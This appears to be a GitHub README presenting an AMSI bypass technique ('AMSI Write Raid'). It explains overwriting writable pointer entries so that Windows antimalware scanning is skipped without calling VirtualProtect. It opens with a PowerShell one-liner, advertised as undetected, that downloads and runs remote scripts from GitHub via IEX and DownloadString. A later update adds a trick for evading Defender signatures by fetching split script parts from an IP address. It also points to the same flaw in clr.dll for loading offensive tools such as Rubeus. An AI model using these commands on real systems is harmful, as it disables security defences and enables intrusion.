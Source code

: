 
## One liner Signature Bypass for the AMSI WRITE RAID BYPASS

✅ Undetected => More info in AvBypassTricks Folder


```powershell
IEX (New-Object System.Net.WebClient).DownloadString("https://raw.githubusercontent.com/V-i-x-x/AMSI-BYPASS/refs/heads/main/AvBypassTricks/hello.ps1"); IEX (New-Object System.Net.WebClient).DownloadString("https://raw.githubusercontent.com/V-i-x-x/AMSI-BYPASS/refs/heads/main/AvBypassTricks/hello2.ps1"); IEX (New-Object System.Net.WebClient).DownloadString("https://raw.githubusercontent.com/V-i-x-x/AMSI-BYPASS/refs/heads/main/AvBypassTricks/hello3.ps1"); MagicBypass;
```

__AMSI WRITE RAID VULNERABILITY__

This is a vulnerability discovery for bypassing Antimalware Scan Interface (AMSI) and I will call it AMSI Write Raid, I mean why not?

Usually all the memory addresses pointing to the functions and data within the DLLs that the program depends on are inside the import address table (IAT) and they are marked as read only, so whenever you want to tamper with them, you have to use VirtualProtect api to mark the page as writable first.

And so EDR's will monitor the VirtualProtect API to see if the API call is doing something suspicious or not. 

But strangely, I discovered a writable entry that you can overwrite without the need of `VirtualProtect` API, that can bypass the whole AMSI process.

And because I am not using VirtualProtect API to change the memory protection, as it is already marked as Read/Write, it will likely bypass AV's and EDR's.

Note: Most AV's supports and uses the AMSI functionality developed by Microsoft, so bypassing AMSI => Bypasses not only defender but all of them.

Tested on win11 Build 22631 (Latest at the time of writing) and windows Preview.

**Update 14/05/2024**

I wanted to mention that this was not the only writable entry that you can overwrite to bypass AMSI with the same concept. I disovered that most of the highlighed entries (vulnerable_entries.png) in the call stack image below are as well vulnerable to the same vulnerability discussed in the paper / blog (writable_entries_part_1.png). The entries are not write protected, so overwriting any of the call pointers would bypass Amsi as well.

![Vulnerable Entries](vulnerable_entries.png)

![Writable Entries](writable_entries_part_1.png)

**Update 28/10/2024**

This POC is still working, but it is signatured by Defender after being published for some time.

A simple trick To bypass Signature => is to split the script to different files and call them 1 by 1  :)

Something like this:

```
IEX (New-Object System.Net.WebClient).DownloadString("http://192.168.26.141/part1.ps1");IEX (New-Object System.Net.WebClient).DownloadString("http://192.168.26.141/part2.ps1");IEX (New-Object System.Net.WebClient).DownloadString("http://192.168.26.141/part3.ps1");
```

### CLR.DLL Vulnerability ###
The same vulnerability exists in clr.dll (PW5) and coreclr.dll (PW7) which allows you to load c# assemblies into Powershell at runtime without being blocked by AMSI.

After using the POC.ps1, if you try to load rubeus for example, you will get blocked by AMSI, even though the error is a bit confusing but this is because of AMSI.

![CLR Error](clr_error.png)

You have to do the same analysis that I did, and your starting point is always amsi!AmsiScanBuffer.

![CLR Entries](clr_entries.png)

![CLR Writable Entry](clr_writable_entry.png)

The call __guard_dispatch_icall_fptr__ is added as part of a security feature that was created to combat memory corruption vulnerabilities. By placing tight restrictions on where an application can execute code from, it makes it much harder for exploits to execute arbitrary code through vulnerabilities such as buffer overflows. that security feature is called __Control Flow Guard__.

https://learn.microsoft.com/en-us/windows/win32/secbp/control-flow-guard

_CFG Call_ will take the value inside rax which is the location of _AmsiScanBuffer_ pointer and validate it using a set of bitmaps if that address is allowed to run or not and then call it (if allowed).

while __Control Flow Guard (CFG)__ is outside the scope of this blog, it will not concern us, as we are not changing the location of the pointer that is being called, so we will not be triggering CFG.

The Full Bypass:

![CLR Bypass POC](clr_poc.png)

I will not publish the POC for clr.dll, I will keep it as an exercise :)
